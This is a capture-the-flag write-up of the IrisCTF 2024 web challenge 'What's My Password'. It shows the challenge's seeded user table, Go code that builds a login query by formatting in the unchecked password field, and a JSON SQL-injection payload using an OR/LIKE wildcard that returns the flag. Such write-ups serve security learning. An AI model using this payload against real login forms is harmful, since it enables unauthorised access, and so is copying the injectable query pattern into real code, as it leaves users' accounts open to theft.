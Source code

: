 ```yaml
---
title: "What's My Password"
description: "[baby] Oh no! Skat forgot their password (again)!\nCan you help them find it?"
pubDate: 2024-01-08
ctf: "IrisCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-irisctf/icon.png"
---
```



Looking at the website we are faced with a login page.

![Login Page](images/24-irisctf/wmp_1.png)

There is an SQL database in the local version:

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

So we can see the flag is stored on the user `skat`.

Looking at the Go source code, this is of interest:

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
	w.WriteHeader(http.StatusInternalServerError)
	return
}

if matched {
	w.WriteHeader(http.StatusBadRequest)
	w.Write([]byte("Username can only contain lowercase letters and numbers."))
	return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

There is filtering/checking on the username param, and none on the password field, so we can exploit that with SQLi!

I send the following JSON payload to the login endpoint: 
```json
{
	"username":"skat",
	"password":"\" OR (username = \"skat\" AND password LIKE \"%\") OR \""
}
```

`LIKE` is used to select if its similar to a string, for example if we wanted a string that starts with `test` and not care about the suffix, we can use `LIKE "test%"`. In this case using just `%` effectively acts as a wildcard.

Response: 
```json
{
	"username":"skat",
	"password":"irisctf{my_p422W0RD_1S_SQl1}"
}
```

And there's the flag! 

Flag: `irisctf{my_p422W0RD_1S_SQl1}`

**Files:** [whats-my-password.tar.gz](https://web.archive.org/web/20240107211430/https://cdn.2024.irisc.tf/whats-my-password.tar.gz)